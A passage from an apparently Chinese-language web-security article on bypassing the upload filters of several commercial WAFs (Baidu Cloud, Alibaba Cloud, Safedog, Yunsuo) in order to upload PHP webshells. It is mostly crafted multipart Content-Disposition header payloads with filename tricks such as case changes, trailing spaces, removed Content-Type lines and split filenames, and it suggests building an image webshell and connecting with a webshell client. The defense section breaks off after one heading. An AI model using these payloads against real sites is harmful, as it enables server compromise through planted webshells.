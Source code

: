   * 

    
    
    Content-Disposition: form-data; name=“up_picture”; filename=“xss.php”

###### 2.3 Baidu cloud Bypass

发现百度云目前正在拦截后缀，百度云过上传还跟<?php前面是否有代码还有很大关系，在这里就不要废话了，大家自己去研究一下吧。  
Content-Disposition: form-data; name=“up_picture”; filename=“xss.jpg .Php”

百度云绕过就简单的很多很多，在对文件名大小写上面没有检测php是过了的，Php就能过，或者PHP，一句话自己合成图片马用Xise连接即可。

###### 2.4 阿里云WAF

  * 

    
    
    Content-Disposition: form-data; name=“img_crop_file”; filename="1.jpg .Php"Content-Type: image/jpeg

Bypass:  

  * 

    
    
    Content-Disposition: form-data; name=“img_crop_file”; filename=“1.php”

Note:你看的没错，删除Content-Type: image/jpeg即可绕过。  

###### 2.5 安全狗上传Bypass(最新版不可绕)

  * 

    
    
    Content-Disposition: form-data; name=“image”; filename="085733uykwusqcs8vw8wky.png"Content-Type: image/png

Bypass:  

  * 

    
    
    Content-Disposition: form-data; name=“image”; filename="085733uykwusqcs8vw8wky.png

C.php"  
Note:删掉ontent-Type:
image/jpeg只留下c，将.php加c后面即可，但是要注意额，双引号要跟着c.php".原理就不多说了，自己研究。

###### 2.6 云锁上传Bypass

  * 

    
    
    Content-Disposition: form-data; name=“up_picture”; filename=“xss.php”

## 二、Defense

详细说一下Type绕过防御机制，其他的防御机制自己可以下去研究.

###### 1.目录设为不可执行:
